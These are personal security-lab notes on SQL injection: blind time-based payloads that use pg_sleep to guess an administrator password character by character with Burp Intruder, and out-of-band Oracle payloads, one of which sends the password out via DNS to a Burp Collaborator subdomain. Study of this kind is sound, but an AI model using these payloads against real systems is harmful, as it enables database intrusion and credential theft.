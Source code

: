 
Enumeration of variable
```
' || (select case when (COLUMN='administrator' and substring(COLUMN_password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column                                    ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	' || (select case when (COLUMN='administrator' and substring(COLUMN_password,§1§,1)='§a§') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
	```
	- Set the attack to Cluster Bomb and load the payloads

**(IMPORTANT)** Burpsuite Testing
	- Create new ressource pool when bruteforcing length with 1 threat (10 wont allow the reply time to responde and be captured by BurpSuite)
	- Also when launching attack add a column for response time (Response Received)

---

## Out-of-Band

Steps
- Try DNS lookup
- Try DNS lookup with data exfiltration

Example Cookie Request
![[Pasted image 20221206184026.png]]

DNS Lookup (Example with Oracle DB) ---> Other [Database](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

UNION Query                 ---> SQL Vulnerability


DNS Lookup with Data Exfiltration (Example with Oracle DB) ---> Other [Database](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--'
```

UNION Query                 ---> SQL Vulnerability
More information in the Cheat Sheet

The response request will be appended to the subdomain (example.ca ---> answer.example.ca)